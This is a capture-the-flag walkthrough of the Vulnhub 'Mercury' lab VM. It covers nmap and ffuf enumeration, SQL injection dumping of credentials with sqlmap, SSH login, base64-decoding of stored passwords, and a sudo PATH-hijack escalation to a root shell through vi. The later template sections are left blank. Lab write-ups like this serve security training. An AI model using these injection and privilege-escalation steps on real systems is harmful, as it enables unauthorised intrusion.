# 📝 Pentesting Mercury Vulnhub

## 📌 General Information
- **Platform:** Vulnhub
- **Category/Series:** The Planets
- **Difficulty:** Easy
- **Author:**  SirFlash
- **Date release:** 4 Sep 2020

---

## ⚠️ Legal & Ethical Notice
This write‑up is for educational purposes only. Do **not** perform testing without explicit authorization.

---

## 🎯 Challenge Objective
> Mercury is an easier box, with no bruteforcing required. There are two flags on the box: a user and root flag which include an md5 hash.

---

## 🛠️ Environment Used
- Operating system: kali Linux
- Tools used: nmap sqlmap
- Network:   -DHCP service: Enabled  
          -IP address: Automatically assign  

---

## 🔍 Methodology (Overview)
- Reconnaissance 
- Scanning & Enumeration  
- Exploitation  
- Post-Exploitation (if applicable)

---

## 🔎 Reconnaissance
> If you dont know your ip go to the terminal and run: ip a

Now we run nmap to see whats in our network: nmap -sn 192.168.239.0/24

The ip of Mercury's virtual machine is ``192.168.239.5``
Now we scan the ip for open ports: ``nmap -sC -sV 192.168.239.5``

We can see that the port 8080 is open with the service http so there could be a website running and the port 22 for ssh
Now we can open a web browser and access the website: ``http://192.168.239.5:8080/``

There could be hiden directories or files
We will use ffuf to find hiden directories or files:``ffuf -u "http://192.168.239.5:8080/FUZZ" -w /usr/share/wordlists/dirb/common.txt -t 50``

We found ``robots.txt``
Now we access the directory:``http://192.168.239.5:8080/robots.txt``

We can see that there is a error page if we substitue ``robots.txt`` with a ``*``

There we can see that there is a directory named:``mercuryfacts``
Now we access the directory:``http://192.168.239.5:8080/mercuryfacts``

When we open the first link there is just a fact about Mercury with a id = 1

When we open the second link there is a todo list about the website giving us hints about the security of the website

We see that the website could be vulnerable to SQLi
To confirm this we go to the terminal and use sqlmap: ``sqlmap -u http://192.168.239.5:8080/mercuryfacts/``

The website is vulnerable to SQLi with these three types:

Now we want to know if we can gain access to the data base:``sqlmap -u http://192.168.239.5:8080/mercuryfacts/ --dbs --batch``

We discovored two data bases: ``information_schema``; ``mercury``
Lets see what tables we have in ``mercury``


We have two tables for the data base mercury and one of them is the username & password

We already know that this ip has an open port for the service ssh so now we are going to login to the ssh using these credentuals

We have to try all logins until one is correct and we login:
Just the last will work:``ssh webmaster@192.168.239.5``

We successfuly loged in now we list the content of that folder:``ls``

we can see the content of the file flag with this command: ``cat user_flag.txt``

Now to get root priviliges we have to search deeper
We have to change directories: ``cd mercury_proj``

There could be root informations on the ``notes.txt`` we have to see whats inside: ``cat notes.txt``

There are encoded passwords we have to decode it using: ``echo 'bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK' | base64 -d`` and ``echo 'bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==' | base64 -d``
Now we have the password for ``webmaster`` & ``linuxmaster``



We can now login with linuxmaster but first we have to open another terminal and then: ``ssh linuxmaster@192.168.239.5``


We have to see the rights and privileges of this user: ``sudo -l``

First we have to see the content of ``usr/bin/check_syslog.sh`` with: ``cat /usr/bin/check_syslog.sh``

Here we have a script that executes the tail program for reading the last 10 log entrys
We will create a link to a file or directory using the vi editor:``ln -s /usr/bin/vi tail``
Now we have to export the local variable with this: ``export PATH=$(pwd):$PATH``
we have to execute the file ``check_syslog.sh`` with: ``sudo --preserve-env=PATH /usr/bin/check_syslog.sh``
It will open the ``check_syslog.sh`` in the vi editor



In the vi editor we have to execute this line to have a shell: ``:!/bin/bash``

Finally we change directory to the root: ``cd /root``

We finnally have the root flag

---

## 📚 Enumeration & Analysis
> Describe what was discovered (versions, pages, interesting functionality)

Key findings:
- 
- 
- 

---

## 🛡️ Identified Vulnerabilities (Technical Description)
- **Vulnerability name:**
- **Affected component:**
- **Brief description (no exploitation details):**
- **Potential impact:**

---

## 🧩 Flag Acquisition / Objectives
- Flag 1:
- Flag 2:
- Evidence (hashes, not sensitive data)

---

## ❌ Common Mistakes
- Suggested fixes
- Secure configurations
- Recommended monitoring

---

## ✅ What I Learned
- 
- 
- 

---

## 📎Useful Links
- Official documentation
- Security standards
- Relevant articles

